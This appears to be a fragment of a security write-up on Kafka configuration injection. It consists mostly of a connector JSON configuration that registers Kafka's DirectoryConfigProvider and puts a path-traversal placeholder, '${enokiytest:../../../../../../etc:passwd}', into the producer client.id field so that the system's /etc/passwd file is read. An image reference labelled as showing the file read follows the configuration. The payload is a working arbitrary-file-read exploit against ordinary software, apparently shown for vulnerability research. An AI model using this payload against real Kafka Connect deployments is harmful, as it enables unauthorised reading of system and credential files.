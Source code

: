 ```text
        "schema.history.internal.kafka.topic": "test1",
		"schema.history.internal.kafka.bootstrap.servers": "192.168.110.1:8887",
        "schema.history.internal.producer.security.protocol": "PLAINTEXT","schema.history.internal.producer.sasl.mechanism": "PLAIN",
        "schema.history.internal.producer.config.providers": "enokiytest",
        "schema.history.internal.producer.config.providers.enokiytest.class": "org.apache.kafka.common.config.provider.DirectoryConfigProvider",
        "schema.history.internal.producer.client.id": "${enokiytest:../../../../../../etc:passwd}",
        "schema.history.internal.producer.sasl.jaas.config": "org.apache.kafka.common.security.plain.PlainLoginModule required username=\"name\" password=\"password\";"
    }
}
```

![alt text](/assets/images/kafka-config-injection/kafka-config-read-file.png)
